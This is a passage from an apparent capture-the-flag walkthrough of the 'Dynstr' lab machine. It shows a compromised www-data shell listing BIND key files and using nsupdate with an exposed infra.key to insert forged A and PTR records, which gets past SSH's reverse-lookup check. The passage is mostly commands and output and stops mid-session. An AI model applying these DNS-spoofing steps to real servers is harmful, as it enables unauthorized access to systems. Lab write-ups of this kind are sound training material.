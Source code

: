 Now, let us go to the ```/etc/bind``` directory to find out the type of keys that we have.
```
www-data@dynstr:/$ cd /etc/bind
cd /etc/bind
www-data@dynstr:/etc/bind$ ls -la
ls -la
total 68
drwxr-sr-x  3 root bind 4096 Mar 20 12:00 .
drwxr-xr-x 80 root root 4096 Jun  8 19:20 ..
-rw-r--r--  1 root root 1991 Feb 18  2021 bind.keys
-rw-r--r--  1 root root  237 Dec 17  2019 db.0
-rw-r--r--  1 root root  271 Dec 17  2019 db.127
-rw-r--r--  1 root root  237 Dec 17  2019 db.255
-rw-r--r--  1 root root  353 Dec 17  2019 db.empty
-rw-r--r--  1 root root  270 Dec 17  2019 db.local
-rw-r--r--  1 root bind  100 Mar 15 20:44 ddns.key
-rw-r--r--  1 root bind  101 Mar 15 20:44 infra.key
drwxr-sr-x  2 root bind 4096 Mar 15 20:42 named.bindmgr
-rw-r--r--  1 root bind  463 Dec 17  2019 named.conf
-rw-r--r--  1 root bind  498 Dec 17  2019 named.conf.default-zones
-rw-r--r--  1 root bind  969 Mar 15 20:46 named.conf.local
-rw-r--r--  1 root bind  895 Mar 15 20:46 named.conf.options
-rw-r-----  1 bind bind  100 Mar 15 20:14 rndc.key
-rw-r--r--  1 root root 1317 Dec 17  2019 zones.rfc1918
```

Let's first do a POC to check if we can successfully add our infra.key to the DNS records. From the output, we can see that we have successfully added infra.key to our DNS records
```
www-data@dynstr:/$ nsupdate -k /etc/bind/infra.key
nsupdate -k /etc/bind/infra.key
> update add test.infra.dyna.htb 86400 a 10.10.16.250
update add test.infra.dyna.htb 86400 a 10.10.16.250
> send
send
> show
show
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
> quit
quit
www-data@dynstr:/$ nslookup test.infra.dyna.htb
nslookup test.infra.dyna.htb
Server:         127.0.0.1
Address:        127.0.0.1#53
Name:   test.infra.dyna.htb
Address: 10.10.16.250
www-data@dynstr:/$ 
```
However, we will still not be able to SSH with this new DNS record. The reason being that SSH does reverse IP address lookup. Hence, we will need to add a PTR record to the DNS entry. Additionally, we will not be able to use the DNS zone that we have created above as they have already been activated.
```
www-data@dynstr:/$ nsupdate -k /etc/bind/infra.key
nsupdate -k /etc/bind/infra.key
> update add check.infra.dyna.htb 86400 A 10.10.16.250
update add check.infra.dyna.htb 86400 A 10.10.16.250
> 

> update add 250.16.10.10.in-addr.arpa 300 PTR check.infra.dyna.htb
update add 250.16.10.10.in-addr.arpa 300 PTR check.infra.dyna.htb
> show
show
```